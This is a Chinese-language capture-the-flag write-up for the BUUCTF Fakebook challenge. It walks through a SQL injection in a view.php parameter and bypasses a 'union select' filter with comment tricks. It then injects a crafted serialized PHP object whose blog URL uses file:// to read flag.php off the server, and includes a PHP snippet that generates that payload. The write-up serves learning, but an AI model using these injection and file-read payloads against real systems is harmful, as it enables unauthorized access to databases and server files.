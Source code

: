 # T16 Fakebook

> 题目：BUUCTF [网鼎杯 2018]Fakebook

__0X00 审题__

打开是一个登陆页面，有进入和注册两个选项，先看进入，问我们用户名与密码，无论如何尝试回显都一样，然后注册一个用户

```
# 	username 	age 	blog
1	  admin	    111	 http://www.baidu.com
```

其中admin可以点开: the contents of his/her blog

这里需要注意一点，注点不在密码，也不在用户名上，注意观察url或者源码：

```
/view.php?no=1
```

这里有个no,验证其是否存在注点

```
no='
>>[*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1)
```

找到注入位置


__0x01 解题__

1. 寻找数据库，表，字段

> 大体写法与之前类似，有两个注意点

* 注1：如果通过联合注入查询会发现，union select 连用遭到了过滤（一直是no hack~），新的方法可以通过/**/绕过，或者/!SeLEct*/

* 注2：因为no是INT型的注意没有单引号引起，加上会一直判错

2. 最后找到表users中的data

得到：

```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:20:"http://www.baidu.com";}
```

_一个序列化的UsersInfo_

> 根据no=1的页面猜测，序列化的类和数据库表中的字段no，username，passwd，data顺序相似，第四个字段应该就是data，（可以进行测试，即将其放置4，观察回显）


3. 存在flag.php并猜测存在于/var/www/html，目标得到其内容

```
1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from users#
```

4. 得到一串base64编码

```php
<?php
$flag = "flag{14a61955-43e7-431e-bdd8-6770f94c4002}";
exit(0);
```

__0x02 总结__

1. 关于注意事项与防过滤
2. 关于其他解法

* 其一：构造序列化后传参

```php
<?php
class UserInfo
{
    public $name = "1";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";
}
 
$ganyu = new UserInfo();
echo serialize($ganyu);
?>
```

> [引用](https://blog.csdn.net/qq_58784379/article/details/120548225)[详情](https://blog.csdn.net/qq_44657899/article/details/104884553)

